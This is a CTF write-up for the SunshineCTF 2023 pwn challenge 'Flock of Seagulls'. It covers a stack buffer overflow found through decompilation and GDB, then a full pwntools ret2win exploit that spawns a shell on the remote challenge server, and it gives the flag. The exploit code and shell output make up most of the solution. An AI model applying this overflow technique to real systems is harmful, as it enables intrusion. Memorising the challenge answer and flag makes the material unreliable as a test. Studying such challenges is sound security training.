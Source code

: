 # Flock of Seagulls

## Description

> **Flock of Seagulls Ode to Seagulls - Chat GPT**
>
> In cyberspace they soar, a flock of seagulls, Guardians of data, with digital goggles. Their eyes keen for threats, they scan the waves, Protecting networks from the darkest caves.
>
> With wings of encryption, they shield the skies, Defenders of secrets, where danger lies. In the realm of code, they glide and dive, Ensuring our data remains alive.
>
> Cyber sentinels, they guard the shore, Against hackers' storms and breaches galore. In unity they fly, with vigilance and grace, These seagulls of security, in cyberspace.
>
> **Server**
>
> nc chal.2023.sunshinectf.games 23002
>
> Attachment: flock

## Flag

sun{here_then_there_then_everywhere}

## Solution

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Flock_of_Seagulls# checksec flock
[*] '/root/ctf/SunshineCTF_2023/pwn/Flock_of_Seagulls/flock'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

root@kali:~/ctf/SunshineCTF_2023/pwn/Flock_of_Seagulls# readelf -s flock | grep win
    40: 00000000004011b9    29 FUNC    GLOBAL DEFAULT   14 win
```

- main -> func1 -> func2 -> func3 -> func4 -> func5

`win` function decompiled with Ghidra:

```c
void win(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

In this challenge, it's expected ret2win.

`func5` function decompiled with Ghidra:

```c
void func5(void)

{
  long unaff_retaddr;
  undefined local_88 [112];
  ssize_t local_18;
  undefined *local_10;
  
  local_10 = local_88;
  printf("<<< Song Begins At %p\n",local_10);
  printf("PwnMe >>> ");
  local_18 = read(0,local_88,500);
  if (unaff_retaddr != 0x401276) {
    fail();
  }
  return;
}
```

`local_88` is defined as 112 bytes but user input is 500 bytes, so There is Buffer Stack Overflow Vulnerability in there.

```gdb
gdb-peda$ b *func5+85
Breakpoint 1 at 0x401248
gdb-peda$ r
(snip)
<<< Song Begins At 0x7fffffffdb40
PwnMe >>> AAAA
(snip)
gdb-peda$ tele 0x7fffffffdb40 50
0000| 0x7fffffffdb40 --> 0xa41414141 ('AAAA\n')
(snip)
0128| 0x7fffffffdbc0 --> 0x7fffffffdbe0 --> 0x7fffffffdc00 --> 0x7fffffffdc20 --> 0x7fffffffdc30 --> 0x7fffffffdc40 (--> ...)
0136| 0x7fffffffdbc8 --> 0x401276 (<func4+13>:  mov    rax,QWORD PTR [rbp+0x8])
(snip)
0160| 0x7fffffffdbe0 --> 0x7fffffffdc00 --> 0x7fffffffdc20 --> 0x7fffffffdc30 --> 0x7fffffffdc40 --> 0x1
0168| 0x7fffffffdbe8 --> 0x4012a0 (<func3+13>:  mov    rax,QWORD PTR [rbp+0x8])
(snip)
0192| 0x7fffffffdc00 --> 0x7fffffffdc20 --> 0x7fffffffdc30 --> 0x7fffffffdc40 --> 0x1
0200| 0x7fffffffdc08 --> 0x4012ca (<func2+13>:  mov    rax,QWORD PTR [rbp+0x8])
(snip)
0224| 0x7fffffffdc20 --> 0x7fffffffdc30 --> 0x7fffffffdc40 --> 0x1
0232| 0x7fffffffdc28 --> 0x4012f0 (<func1+9>:   nop)
(snip)
0248| 0x7fffffffdc38 --> 0x401554 (<main+609>:  mov    eax,0x0)
0256| 0x7fffffffdc40 --> 0x1
(snip)
```

Creating payload so that the stack is in this state and rewriting `main` address to `win` address due to jump to `win` function.

solver.py

```python
from pwn import *

elf = ELF("flock")
rop = ROP(elf)

win = elf.sym["win"]

log.debug(f"win: {hex(win)}")

ret = rop.ret.address


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("chal.2023.sunshinectf.games", 23002)

    elif args.GDB:
        gdbscript = """
        b win
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)

    else:
        io = elf.process()

    return io


def gen_payload(
    f4_call: int,
    f3_call: int,
    f2_call: int,
    f1_call: int,
) -> bytes:
    payload = b""

    payload += b"A" * 128
    payload += p64(f4_call)
    payload += p64(0x401276)  # 0x401276 (<func4+13>:  mov    rax,QWORD PTR [rbp+0x8])

    payload += b"A" * 16
    payload += p64(f3_call)
    payload += p64(0x4012A0)  # 0x4012a0 (<func3+13>:  mov    rax,QWORD PTR [rbp+0x8])

    payload += b"A" * 16
    payload += p64(f2_call)
    payload += p64(0x4012CA)  # 0x4012ca (<func2+13>:  mov    rax,QWORD PTR [rbp+0x8])

    payload += b"A" * 16
    payload += p64(f1_call)
    payload += p64(0x4012F0)  # 0x4012f0 (<func1+9>:   nop)

    payload += b"A" * 8
    payload += p64(ret)
    payload += p64(win)

    return payload


def main():
    io = conn()

    io.recvuntil(b"<<< Song Begins At ")
    song_begin = io.recvline().strip()
    song_begin = int(song_begin, base=16)

    log.info(f"song_begin: {hex(song_begin)}")
    payload = gen_payload(
        song_begin + 160,  # func4
        song_begin + 192,  # func3
        song_begin + 224,  # func2
        song_begin + 240,  # func1
    )

    io.sendlineafter(b"PwnMe >>> ", payload)

    io.interactive()


if __name__ == "__main__":
    main()
```

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Flock_of_Seagulls# python3 solver.py REMOTE
[*] '/root/ctf/SunshineCTF_2023/pwn/Flock_of_Seagulls/flock'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 5 cached gadgets for 'flock'
[+] Opening connection to chal.2023.sunshinectf.games on port 23002: Done
[*] song_begin: 0x7ffe9e7355f0
[*] Switching to interactive mode
$ id
uid=1337(flock) gid=1337(flock) groups=1337(flock)
$ ls -la
total 12
drwxr-xr-x 2 root root  4096 Oct  7 13:57 .
drwxr-xr-x 1 root root  4096 Oct  7 13:57 ..
-rw-r----- 1 root flock   37 Oct  7 13:55 flag.txt
$ cat flag.txt
sun{here_then_there_then_everywhere}
```
